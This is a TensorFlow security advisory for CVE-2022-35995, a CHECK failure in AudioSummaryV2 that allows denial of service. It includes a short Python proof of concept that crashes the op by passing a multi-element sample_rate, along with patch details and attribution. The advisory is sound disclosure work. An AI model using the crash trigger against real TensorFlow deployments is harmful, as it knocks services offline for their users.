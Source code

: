## TFSA-2022-125: `CHECK` fail in `AudioSummaryV2`

### CVE Number
CVE-2022-35995

### Impact
When `AudioSummaryV2` receives an input `sample_rate` with more than one element, it gives a `CHECK` fails that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=''
arg_1=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_2=tf.random.uniform(shape=(2,1), dtype=tf.float32, maxval=None)
arg_3=3
arg_4=''
tf.raw_ops.AudioSummaryV2(tag=arg_0, tensor=arg_1, sample_rate=arg_2,
                          max_outputs=arg_3, name=arg_4)
```

### Patches
We have patched the issue in GitHub commit [bf6b45244992e2ee543c258e519489659c99fb7f](https://github.com/tensorflow/tensorflow/commit/bf6b45244992e2ee543c258e519489659c99fb7f).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
